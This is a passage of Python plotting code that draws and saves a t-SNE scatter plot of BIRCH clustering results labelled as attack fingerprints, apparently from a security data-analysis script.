palette = sns.color_palette("tab20", num_clusters)

# scatter plot with legend enabled
sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend="full", 
    alpha=0.7, 
    s=70, 
    edgecolor='white',
    linewidth=0.5
)

#  legend outside the plot area to avoid overlaps
plt.legend(
    title="Attack Clusters",
    bbox_to_anchor=(1.02, 1), 
    loc='upper left', 
    borderaxespad=0,
    fontsize=10,
    ncol=1 
)

plt.title(f'BIRCH Attack Fingerprints (t-SNE Projection)\nTarget K={best_n}', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)

plt.tight_layout()
plt.savefig('tsne_clusters_birch_clean.png', dpi=300)
plt.show()